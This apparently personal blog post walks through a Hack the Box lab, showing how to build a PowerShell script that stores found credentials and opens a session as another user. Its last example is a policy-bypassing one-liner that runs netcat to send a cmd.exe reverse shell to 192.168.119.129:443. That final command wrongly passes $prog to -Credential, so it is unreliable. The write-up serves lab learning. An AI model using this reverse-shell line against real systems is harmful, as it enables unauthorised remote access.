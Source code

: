 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Switching Users"
author: nanobyte
date:   2020-06-01
description: PowerShell for Penetration Testing, and how to use credentials to switch users
tags: PowerShell HTB_Walkthrough
---
```


While completing Hack the Box's Sniper machine, I came across the need to have to switch to a different user. Credentials were discovered in a db.php file, and there was no way to login as that user using external tools such as Evil-WinRM. However, thanks to PowerShell, there is a simple way to quickly write a script to store these credentials in variables, and enter a new PowerShell session to that user. To begin, the credentials discovered were Chris:36mEAhz/B8xQ~2VM. To start out, the first variables I needed to set were the username and password:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
{% endhighlight %}

Now that I had the credentials stored, I could not pass these credentials as plain text. PowerShell is special when it comes to handling passwords; it requires that you use a secure string when passing passwords for accounts. This can be completed using PowerShells ConvertTo-SecureString. To find out more about this, please visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7" target="_blank">docs.Microsoft.com</a>. To secure the password, I made a new variable `$securePassword` and secured the `$password` string:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
{% endhighlight %}

Now, I had the beginning parts of my script complete. It has taken basic user credentials and stored them securely to pass for use to enter into our new session. The next stage is creating a `$credential` variable and using PowerShell's New-Object cmdlet to create a new .NET framework object for the credentials. In PowerShell, objects are "things" that the language can "consume", and have their own properties. In my case, I was creating a new `$credential` object for PowerShell to "use" that consist of several properties. We can see these properties coming up. To make this object, I added the following command to our script:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
{% endhighlight %}

With that I had created our object containing Chris' credentials! At this point, I was able to check to make sure that the credentials are properly stored. PowerShell provides a GetNetworkCredentials method to verify this. I simply called this method on the new credentials object, along with format-list. PowerShell's format-list is a powerful output tool, which displays a tabled list of properties. To output all the properties, we include the star symbol after the cmdlet:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
{% endhighlight %}

And as output, we should see the proper credentials returned in a PowerShell formatted list:

{% highlight bash linenos %}
UserName       : Chris
Password       : 36mEAhz/B8xQ~2VM
SecurePassword : System.Security.SecureString
{% endhighlight %}

Finally, I then entered into a new PowerShell session. This is completed by first using the New-PSSession cmdlet. This cmdlet allows us to create a new session on a local or remote computer. I then passed the stored secure credentials to this new session! And once passed, I piped to PowerShell's Enter-PSSession cmdlet to enter into the session:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And with that, I had properly created a simple script to switch into a user PowerShell session, when I was unable to log into the machine using external tools! 

Now, to take this one step further. I could use this method and create a PowerShell one-liner. This one liner would look something like this (I have removed the `$credential.GetNetworkCredential() | Format-List *` line to make the line more digestable, but can be placed in for a credential check:

{% highlight bash linenos %}
$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And this would enter into a new PowerShell session as a one-liner. To use this one-liner in another practical example, during OSCP's labs I had to bypass a restricted PowerShell policy and spawn a new process with user credentials, in a one-liner. To start, check out my previous post on <a href="https://ubg-hacking.team/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">beating PowerShell's restricted policies</a>. To spawn our new process, we would make the following change:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process -Credential $prog $args }"
{% endhighlight %}

It is important to pass the `-Credential` object first, before `$prog` and the `$args` variables to work properly. Thanks for reading!
